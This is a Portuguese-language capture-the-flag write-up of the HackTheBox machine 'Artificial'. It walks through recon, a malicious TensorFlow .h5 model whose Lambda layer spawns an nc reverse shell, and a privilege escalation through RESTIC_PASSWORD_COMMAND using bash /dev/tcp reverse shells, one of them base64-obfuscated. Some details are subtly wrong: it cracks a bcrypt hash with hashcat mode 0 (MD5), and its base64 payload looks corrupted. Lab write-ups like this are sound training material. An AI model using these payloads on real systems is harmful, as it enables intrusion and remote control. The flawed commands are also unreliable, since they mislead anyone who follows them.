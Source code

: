 # HackTheBox - Artificial (Write-up)

Este é um write-up detalhado da máquina **Artificial** no HackTheBox.  
O objetivo foi explorar vulnerabilidades em modelos TensorFlow maliciosos para obter execução remota de código, escalar privilégios e capturar as flags de `user.txt` e `root.txt`.

---

## 📌 Sumário
- [Reconhecimento](#-reconhecimento)
- [Acesso Inicial](#-acesso-inicial)
- [Exploração do TensorFlow](#-exploração-do-tensorflow)
- [Acesso ao Contêiner](#-acesso-ao-contêiner)
- [Escalada de Privilégios](#-escalada-de-privilégios)
- [Flags](#-flags)
- [Conclusão](#-conclusão)

---

## 🔎 Reconhecimento

Utilizando o **nmap** para identificar portas abertas:

```bash
nmap -sCVT 10.10.11.74
```

Resultado:

```
PORT   STATE SERVICE VERSION
22/tcp open ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp open http    nginx 1.18.0 (Ubuntu)
```

- Serviço HTTP redirecionava para `http://artificial.htb/`.

---

## 🔑 Acesso Inicial

Foi possível criar uma conta demo para explorar a aplicação.  
O sistema permitia upload de arquivos `.h5` (modelos TensorFlow).

Descoberta: vulnerabilidade de execução remota de código (RCE) no carregamento de modelos TensorFlow.

---

## 💥 Exploração do TensorFlow

Exploit em Python para criar um `.h5` malicioso:

```python
import tensorflow as tf
import os

def exploit(x):
    os.system("rm -f /tmp/f; mknod /tmp/f p; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.xx.xx 4444 >/tmp/f")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```

Criação do contêiner para compilar o modelo malicioso:

```bash
docker run -it --rm -v "$PWD":/app -w /app tensorflow/tensorflow:2.13.0 python3 exploit.py
```

Upload do `exploit.h5` no Web UI → **View Predictions** → Reverse shell obtida.

---

## 🖥️ Acesso ao Contêiner

Após o upload, abrir shell interativa:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Agora, acesso inicial garantido no contêiner.

---

## 🚀 Escalada de Privilégios

Foi encontrado arquivo `config.json` dentro de `.config/backrest/`:

```bash
cat .config/backrest/config.json
```

Credenciais (bcrypt):

```
"user": "backrest_root",
"passwordBcrypt": "JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP"
```

Bruteforce da senha via hashcat:

```bash
hashcat -m 0 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

Exploração com variável de ambiente `RESTIC_PASSWORD_COMMAND` para reverse shell persistente:

```bash
echo "bash -i >& /dev/tcp/10.10.xx.xx/4444 0>&1" | base64
```

Uso no ENV:

```bash
RESTIC_PASSWORD_COMMAND=echo "YmFzaCAtaSA+JiAvZGVzxL3RjcC8xMC4xMC4xNi4xMzUvNDQ0NCAwPiYxCg==" | base64 -d | bash
```

Para persistência de longo prazo:

```bash
RESTIC_PASSWORD_COMMAND=bash -c 'bash -i >& /dev/tcp/10.10.xx.xxx/4444 0>&1'
```

---

## 🏁 Flags

Após acesso root:

```bash
cat /home/user/user.txt
cat /root/root.txt
```

---

## ✅ Conclusão

A máquina **Artificial** explorou falhas críticas em Machine Learning:

1. **Nmap** revelou SSH e HTTP.  
2. **TensorFlow RCE** via upload de modelo `.h5`.  
3. **Reverse shell** através de código malicioso embutido no modelo.  
4. **Config.json** com credenciais expostas.  
5. **PrivEsc** via variável `RESTIC_PASSWORD_COMMAND`.  
6. Flags capturadas com sucesso.  

```
Status: PWNED 🏴‍☠️
```
